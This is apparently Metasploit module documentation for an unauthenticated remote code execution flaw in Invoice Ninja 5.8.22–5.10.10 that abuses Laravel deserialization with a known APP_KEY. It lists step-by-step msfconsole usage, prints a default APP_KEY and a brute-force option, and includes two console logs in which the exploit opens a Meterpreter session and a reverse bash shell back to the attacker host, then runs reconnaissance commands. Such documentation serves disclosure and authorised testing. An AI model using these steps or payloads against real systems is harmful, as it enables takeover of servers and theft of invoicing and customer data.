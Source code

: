 ## Vulnerable Application
Invoice Ninja is a free invoicing software for small businesses, based on the PHP framework Laravel.
A Remote Code Execution vulnerability in Invoice Ninja (>= `5.8.22` <= `5.10.10`) allows remote unauthenticated
attackers to conduct PHP deserialization attacks via endpoint `/route/<hash>` which accepts a Laravel
ciphered value which is unsafe unserialized, if an attacker has access to the secret `APP_KEY`.
As it allows remote code execution, adversaries could exploit this flaw to execute arbitrary commands,
potentially resulting in complete system compromise, data exfiltration, or unauthorized access
to sensitive information.

The following release was tested.
* Invoice Ninja `5.10.10` on Ubuntu 22.04

## Installation steps to install Invoice Ninja on a self-hosted platform
* See [Invoice Ninja self-hosted installation](https://invoiceninja.github.io/en/self-host-installation/)

## Verification Steps
- [ ] Start `msfconsole`
- [ ] `use exploit/linux/http/linux/http/invoiceninja_uauth_rce_cve_2024_55555`
- [ ] `set rhosts <ip-target>`
- [ ] `set rport <port>`
- [ ] `set lhost <attacker-ip>`
- [ ] `set target <0=PHP Command, 1=Unix/Linux Command>`
- [ ] `exploit`
- [ ] you should get a `reverse shell` or `Meterpreter` session depending on the `payload` and `target` settings

## Options
### APP_KEY
This option is required if the BRUTE_FORCE option is not used.
It is the Laravel APP_KEY with a default key: `base64:RR++yx2rJ9kdxbdh3+AmbHLDQu+Q76i++co9Y8ybbno=`.

### BRUTEFORCE
This option is optional and is a text file with a list of APP_KEYs, one per line for a bruteforce attack.

## Scenarios
### Invoice Ninja 5.10.10 on Ubuntu 22.04 -  PHP Command target
Attack scenario: use the default Laravel APP_KEY preset in the option APP_KEY.
```msf
msf6 > use modules/exploits/linux/http/invoiceninja_unauth_rce_cve_2024_55555
[*] Using configured payload php/meterpreter/reverse_tcp
msf6 exploit(linux/http/invoiceninja_unauth_rce_cve_2024_55555) > set rhosts 192.168.201.6
rhosts => 192.168.201.6
msf6 exploit(linux/http/invoiceninja_unauth_rce_cve_2024_55555) > set lhost 192.168.201.8
lhost => 192.168.201.8
msf6 exploit(linux/http/invoiceninja_unauth_rce_cve_2024_55555) > rexploit
[*] Reloading module...
[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.201.6:443 can be exploited.
[+] The target appears to be vulnerable. Invoice Ninja 5.10.10
[*] Lets check if the APP_KEY(s) is/are valid by decrypting the XSRF_TOKEN inside the cookie.
[*] Grabbing the cookie with the XSRF-TOKEN.
[+] APP_KEY is valid: base64:RR++yx2rJ9kdxbdh3+AmbHLDQu+Q76i++co9Y8ybbno=
[+] Unciphered value: e60eab8287b88f834312505e582750ae6f95a84b|6IWTnJv2f3lL1nbKRbl6LwJixPeRF5grQVTFTIuB
[*] Generate an encrypted serialization payload with our cracked APP_KEY.
[*] Executing PHP for php/meterpreter/reverse_tcp
[*] Sending stage (40004 bytes) to 192.168.201.6
[*] Meterpreter session 1 opened (192.168.201.8:4444 -> 192.168.201.6:60120) at 2025-02-23 09:47:28 +0000

meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer    : cuckoo
OS          : Linux cuckoo 5.15.0-131-generic #141-Ubuntu SMP Fri Jan 10 21:18:28 UTC 2025 x86_64
Meterpreter : php/linux
meterpreter > pwd
/usr/share/nginx/invoiceninja/public
meterpreter >
```
###  Invoice Ninja 5.10.10 on Ubuntu 22.04 - Unix/Linux Command target
Attack scenario: use the BRUTEFORCE option with a list of APP_KEYS in a text file.
```msf
msf6 exploit(linux/http/invoiceninja_unauth_rce_cve_2024_55555) > set target 1
target => 1
msf6 exploit(linux/http/invoiceninja_unauth_rce_cve_2024_55555) > set BRUTEFORCE /root/laravel-crypto-killer/wordlists/invoiceninja_default.txt
BRUTEFORCE => /root/laravel-crypto-killer/wordlists/invoiceninja_default.txt
msf6 exploit(linux/http/invoiceninja_unauth_rce_cve_2024_55555) > rexploit
[*] Reloading module...
[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.201.6:443 can be exploited.
[+] The target appears to be vulnerable. Invoice Ninja 5.10.10
[*] Lets check if the APP_KEY(s) is/are valid by decrypting the XSRF_TOKEN inside the cookie.
[*] Grabbing the cookie with the XSRF-TOKEN.
[*] Starting bruteforce decryption with APP_KEYS listed in /root/laravel-crypto-killer/wordlists/invoiceninja_default.txt.
[+] Valid APP_KEY found: base64:RR++yx2rJ9kdxbdh3+AmbHLDQu+Q76i++co9Y8ybbno=
[+] Unciphered value: e60eab8287b88f834312505e582750ae6f95a84b|3epElAO1qNeckBzHOytBrNnGrvRJSyeCBsahBkSO
[*] Generate an encrypted serialization payload with our cracked APP_KEY.
[*] Executing Unix/Linux Command for cmd/unix/reverse_bash
[*] Command shell session 2 opened (192.168.201.8:4444 -> 192.168.201.6:60340) at 2025-02-23 09:49:15 +0000

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
uname -a
Linux cuckoo 5.15.0-131-generic #141-Ubuntu SMP Fri Jan 10 21:18:28 UTC 2025 x86_64 x86_64 x86_64 GNU/Linux
pwd
/usr/share/nginx/invoiceninja/public
```

## Limitations
No limitations.
